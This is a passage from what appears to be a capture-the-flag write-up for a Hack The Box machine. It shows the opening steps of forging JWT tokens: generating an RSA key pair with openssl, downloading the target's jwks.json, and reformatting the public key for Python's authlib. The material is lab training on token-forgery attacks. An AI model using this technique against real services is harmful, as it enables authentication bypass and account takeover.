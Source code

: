To forge our own tokens we need to generate a RSA public private key pair in a first step.

```
$ openssl genrsa -out keypair.pem 2048
Generating RSA private key, 2048 bit long modulus (2 primes)
...............................................................+++++
.................+++++
e is 65537 (0x010001)
$ openssl rsa -in keypair.pem -pubout -out publickey.crt
writing RSA key
$ openssl pkcs8 -topk8 -inform PEM -outform PEM -nocrypt -in keypair.pem -out pkcs8.key
```

Then we download the `jwks.json` from the target to see what format it expects.

```
$ wget http://hackmedia.htb/static/jwks.json
--2021-11-27 22:24:56--  http://hackmedia.htb/static/jwks.json
Resolving hackmedia.htb (hackmedia.htb)... 10.129.192.66
Connecting to hackmedia.htb (hackmedia.htb)|10.129.192.66|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 544 [application/json]
Saving to: ‘jwks.json’

jwks.json                                                  100%[========================================================================================================================================>]     544  --.-KB/s    in 0s

2021-11-27 22:24:56 (177 MB/s) - ‘jwks.json’ saved [544/544]
```

`jwks.json`
```
{
    "keys": [
        {
            "kty": "RSA",
            "use": "sig",
            "kid": "hackthebox",
            "alg": "RS256",
            "n": "AMVcGPF62MA_lnClN4Z6WNCXZHbPYr-dhkiuE2kBaEPYYclRFDa24a-AqVY5RR2NisEP25wdHqHmGhm3Tde2xFKFzizVTxxTOy0OtoH09SGuyl_uFZI0vQMLXJtHZuy_YRWhxTSzp3bTeFZBHC3bju-UxiJZNPQq3PMMC8oTKQs5o-bjnYGi3tmTgzJrTbFkQJKltWC8XIhc5MAWUGcoI4q9DUnPj_qzsDjMBGoW1N5QtnU91jurva9SJcN0jb7aYo2vlP1JTurNBtwBMBU99CyXZ5iRJLExxgUNsDBF_DswJoOxs7CAVC5FjIqhb1tRTy3afMWsmGqw8HiUA2WFYcs",
            "e": "AQAB"
        }
    ]
}
```

Next we take the public key and bring it into a format we can use with pythons authlib module to generate a new `n`.

```
$ cat publickey.crt | sed -z "s/\n/\\\n/g"
-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA6w2+L6ASM9vpReZbaFJ7\nvtlmf0MtARmuUsbMQ1HM3ECvPO32A/+NuQkntICvLVRqMGos28P/98aN3FPhiPZ1\nL7UESZkKcaHnB8lC2yt2+9bzNARYyLa9Y37hSBxHbL0L2Li1FxkwU/qwteRK5UaU\nwwXjPUTlurFD4mHshDgQnzfmGSdXX36Wlak1m8MEqfG7FbQ8IcfbAjPocmJDospc\nYJ60TsduPsf+3X5R6PG7h0/tWdOf8PCJSRyPAOgaM2lXPP7pDsDI/a2GDiRO+E+W\nFmnZiZSkV+arNrzYHOLb3u0zJj62mC8+9oOahWc1P5newV3xzsuXiDUcd1bjSqV/\ndwIDAQAB\n-----END PUBLIC KEY-----\n
```
